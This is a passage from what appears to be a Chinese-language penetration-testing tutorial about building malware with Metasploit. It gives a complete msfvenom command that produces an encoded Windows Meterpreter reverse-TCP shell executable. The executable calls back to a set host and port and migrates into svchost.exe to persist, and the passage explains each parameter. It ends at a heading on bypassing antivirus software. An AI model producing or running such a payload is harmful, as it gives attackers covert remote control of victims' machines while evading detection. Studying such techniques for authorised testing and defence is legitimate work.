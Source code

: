 <img src=images/02/image(6).png>

其实在生成payload时可直接使用如下命令，生成的payload会直接注入到指定进程中。
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -e x86/shikata_ga_nai -b "\x00" -i 5 -a x86 --platform win PrependMigrate=true PrependMigrateProc=svchost.exe -f exe -o  shell.exe

```
生成的shell程序执行后会启动两个进程`shell.exe`和`svchost.exe`，关闭其中一个不会影响会话状态。唯一美中不足的是`svchost.exe`不是`system32`目录下的。

<img src=images/02/image(7).png>

在上面的生成payload参数中：

（1）PrependMigrate=true `PrependMigrateProc=svchost.exe` 使这个程序默认会迁移到svchost.exe进程，自己测试的时候不建议到这个进程而是其他的持久进程。

（2）使用-p指定使用的攻击载荷模块，使用-e指定使用x86/shikata_ga_nai编码器，使用-f选项告诉MSF编码器输出格式为exe，-o选项指定输出的文件名为payload.exe，保存在根目录下。


## 绕过杀软
